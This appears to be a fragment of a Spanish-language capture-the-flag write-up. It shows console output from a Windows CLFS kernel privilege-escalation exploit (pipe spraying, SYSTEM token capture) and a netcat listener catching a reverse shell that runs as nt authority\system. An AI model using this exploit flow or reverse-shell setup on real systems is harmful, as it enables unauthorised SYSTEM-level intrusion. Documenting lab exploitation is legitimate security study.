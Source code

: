 ```
numero de tags CLFS founded 9

Last kernel CLFS address = FFFFD38077AAF000
numero de tags CLFS founded 1

[+] Log file handle: 00000000000000EC
[+] Pool CLFS kernel address: FFFFD38077AAF000

number of pipes created =5000

number of pipes created =4000
TRIGGER START
System_token_value: 4141414141414141
TRYING AGAIN
TRIGGER START
System_token_value: 4141414141414141
TRYING AGAIN
TRIGGER START
System_token_value: FFFFD3806A44159B
SYSTEM TOKEN CAPTURED
Closing Handle
ACTUAL USER=SYSTEM
```

`Ganamos acceso` como `nt authority\system`

```
# rlwrap nc -nlvp 443  
listening on [any] 443 ...
connect to [10.10.16.29] from (UNKNOWN) [10.129.229.128] 57072
Microsoft Windows [Version 10.0.22000.1761]
(c) Microsoft Corporation. All rights reserved.

C:\Users\sam.emerson\Documents>whoami
whoami
nt authority\system
```
